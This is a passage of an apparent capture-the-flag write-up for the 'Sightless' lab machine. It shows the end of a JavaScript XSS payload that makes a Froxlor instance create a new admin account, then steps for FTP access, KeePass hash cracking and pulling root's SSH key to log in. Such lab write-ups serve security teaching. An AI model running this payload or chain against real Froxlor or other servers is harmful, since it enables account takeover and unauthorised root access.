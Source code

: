 ```
var params="new_loginname=abcd&admin_password=Abcd@@1234&admin_password_suggestion=mgphdKecOu&def_language=en&api_allowed=0&api_allowed=1&name=Abcd&email=yldrmtest@gmail.com&custom_notes=&custom_notes_show=0&ipaddress=-1&change_serversettings=0&change_serversettings=1&customers=0&customers_ul=1&customers_see_all=0&customers_see_all=1&domains=0&domains_ul=1&caneditphpsettings=0&caneditphpsettings=1&diskspace=0&diskspace_ul=1&traffic=0&traffic_ul=1&subdomains=0&subdomains_ul=1&emails=0&emails_ul=1&email_accounts=0&email_accounts_ul=1&email_forwarders=0&email_forwarders_ul=1&ftps=0&ftps_ul=1&mysqls=0&mysqls_ul=1&csrf_token=" csrfToken "&page=admins&action=add&send=send"
xhr.open("POST",url,true)
xhr.setRequestHeader("Content-type","application/x-www-form-urlencoded")
alert("Your Froxlor Application has been completely Hacked")
xhr.send(params)}
a=b()`()}}
```

{% endraw %}

Change the url to the relevant url, ie **admin.sightless.htb:8080**, and as mentioned in the advisory place the recoded payload into the loginname parameter on login and it will create an admin user. Username is `abcd` and the password of the new user is `Abcd@@1234`. This is the intended way to get onto the Froxlor application, and the debugger in theory is being run to automate the admin checking the admin portal for the XSS to detonate. 

## FTP

Next if you check the customers tab we can see John Thompson has a username of web1, and we can change web1's password after clicking on the name and heading to FTP -> Accounts. Use the options to change the password and FTP into it with `web1:youpass`.

Inside of FTP you will find a password backup file at */goaccess/backup/Database.kdb* and using `get Database.kdb` retrieves it. Next run `keepass2john` and run john or hashcat to crash the hash. Then run the following:

```bash
kpcli -kdb Database.kdb
find .
show /General/sightless.htb/Backup/ssh -f
attach /General/sightless.htb/Backup/ssh

dos2unix id_rsa
ssh -i id_rsa root@sightless.htb
```

